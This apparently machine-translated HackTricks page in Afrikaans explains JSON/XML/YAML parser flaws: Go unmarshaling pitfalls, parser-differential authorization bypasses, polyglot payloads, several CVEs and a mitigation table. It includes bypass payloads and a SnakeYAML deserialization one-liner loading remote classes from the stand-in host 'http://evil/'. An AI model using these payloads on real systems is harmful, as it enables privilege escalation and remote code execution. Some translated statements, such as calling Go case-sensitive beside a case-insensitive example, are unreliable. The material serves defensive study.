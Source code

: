 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Dekoder

Die volgende probleme is in die Go JSON opgespoor, alhoewel dit ook in ander tale teenwoordig kan wees. Hierdie probleme is gepubliseer in [**hierdie blogpos**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go se JSON, XML, en YAML parsers het 'n lang pad van inkonsekwentheid en onveilige standaardinstellings wat misbruik kan word om **authentisering te omseil**, **privileges te verhoog**, of **sensitiewe data te eksfiltreer**.

### (Un)Marshaling Onverwagte Data

Die doel is om strukture te benut wat 'n aanvaller toelaat om sensitiewe velde te lees/skryf (bv. `IsAdmin`, `Password`).

- Voorbeeld Struktuur:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Algemene Kw vulnerabilities

1. **Ontbrekende etiket** (geen etiket = veld word steeds standaard verwerk):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Onkorrekte gebruik van `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Regte manier om 'n veld te blokkeer van (un)marshaling:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Verskille

Die doel is om outorisasie te omseil deur te profiteer van hoe verskillende parsers dieselfde payload verskillend interpreteer soos in:
- CVE-2017-12635: Apache CouchDB omseiling via duplikaat sleutels
- 2022: Zoom 0-click RCE via XML parser inkonsekwentheid
- GitLab 2025 SAML omseiling via XML quirks

**1. Duplikaat Velde:**
Go se `encoding/json` neem die **laaste** veld.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Ander parsers (bv. Java se Jackson) mag die **eerste** neem.

**2. Hooflettergevoeligheid:**
Go is hooflettergevoelig:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Selfs Unicode truuks werk:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Kruisdiens wanpassing:**
Stel jou voor:
- Proxy geskryf in Go
- AuthZ diens geskryf in Python

Aanvaller stuur:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python sien `UserAction`, laat dit toe
- Go sien `AdminAction`, voer dit uit


### Data Formaat Verwarring (Polyglots)

Die doel is om stelsels te exploiteer wat formate meng (JSON/XML/YAML) of wat oopval op parser foute soos:
- **CVE-2020-16250**: HashiCorp Vault het JSON met 'n XML-parser geparsed nadat STS JSON in plaas van XML teruggestuur het.

Aanvaller beheer:
- Die `Accept: application/json` kop
- Gedeeltelike beheer van JSON liggaam

Go se XML-parser het dit **tog** geparsed en die ingespoten identiteit vertrou.

- Gemaakte lasbrief:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Result:
- **Go JSON** parser: `Action_2` (nie-sensitief + laaste wen)
- **YAML** parser: `Action_1` (sensitief)
- **XML** parser: parseer `"Action_3"` binne die string

---

## Opmerklike Parser Kwesbaarhede (2023-2025)

> Die volgende publiek-exploiteerbare probleme toon dat onveilige parsing 'n multi-taal probleem is — nie net 'n Go probleem nie.

### SnakeYAML Deserialisering RCE (CVE-2022-1471)

* Raak: `org.yaml:snakeyaml` < **2.0** (gebruik deur Spring-Boot, Jenkins, ens.).
* Wortel oorsaak: `new Constructor()` deserialiseer **arbitraire Java klasse**, wat gadget kettings toelaat wat eindig in afstand-kode uitvoering.
* Een-liner PoC (sal die sakrekenaar op kwesbare gasheer oopmaak):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigering:
1. **Opgradeer na ≥2.0** (gebruik `SafeLoader` as standaard).
2. Op ouer weergawes, gebruik eksplisiet `new Yaml(new SafeConstructor())`.

### libyaml Dubbel-vry (CVE-2024-35325)

* Raak: `libyaml` ≤0.2.5 (C-biblioteek wat deur baie taalbindings gebruik word).
* Probleem: Die aanroep van `yaml_event_delete()` twee keer lei tot 'n dubbel-vry wat aanvallers kan omskep in DoS of, in sommige scenario's, heap-uitbuiting.
* Status: Upstream verwerp as “API misbruik”, maar Linux verspreidings het 'n gepatchte **0.2.6** gestuur wat die pointer defensief null-vry maak.

### RapidJSON Heelgetal (Onder|Oor)-vloei (CVE-2024-38517 / CVE-2024-39684)

* Raak: Tencent **RapidJSON** voor verbintenis `8269bc2` (<1.1.0-patch-22).
* Fout: In `GenericReader::ParseNumber()` onbeheerde wiskunde laat aanvallers toe om enorme numeriese literale te skep wat omhul en die heap korrupteer — uiteindelik wat privilige-eskalasie moontlik maak wanneer die resulterende objekgraf gebruik word vir outoriseringbesluite.

---

### 🔐 Mitigasies (Opgedateer)

| Risiko                              | Fix / Aanbeveling                                         |
|-------------------------------------|-----------------------------------------------------------|
| Onbekende velde (JSON)              | `decoder.DisallowUnknownFields()`                         |
| Dubbele velde (JSON)                | ❌ Geen oplossing in stdlib — valideer met [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Hooflettergevoelige ooreenkoms (Go) | ❌ Geen oplossing — valideer struktuurtags + pre-kanaal invoer   |
| XML rommeldata / XXE                | Gebruik 'n geharde parser (`encoding/xml` + `DisallowDTD`)     |
| YAML onbekende sleutels             | `yaml.KnownFields(true)`                                  |
| **Onveilige YAML deserialisering**  | Gebruik SafeConstructor / opgradeer na SnakeYAML ≥2.0     |
| libyaml ≤0.2.5 dubbel-vry           | Opgradeer na **0.2.6** of distro-gepatchte weergawe      |
| RapidJSON <gepatchte verbintenis    | Compileer teen die nuutste RapidJSON (≥Julie 2024)        |

## Verwysings

- Baeldung – “Oplossing van CVE-2022-1471 Met SnakeYAML 2.0”
- Ubuntu Veiligheid Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}

